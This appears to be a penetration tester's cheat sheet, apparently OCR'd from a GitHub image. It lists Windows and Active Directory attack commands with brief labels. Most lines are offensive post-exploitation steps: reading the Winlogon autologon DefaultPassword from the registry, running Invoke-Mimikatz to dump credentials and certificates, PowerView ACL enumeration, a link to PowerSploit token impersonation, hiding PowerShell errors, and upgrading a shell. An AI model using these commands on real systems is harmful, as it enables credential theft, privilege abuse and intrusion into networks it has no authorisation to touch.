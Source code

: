 xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" ***Creds***

Invoke-Mimikatz -DumpCreds/-DumpCerts

script -qc /bin/bash /dev/null

Service Ticket Combos - https://adsecurity.org/?p=2011

proxychains net time set -S 172.16.3.5

(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id ***Expand Property***
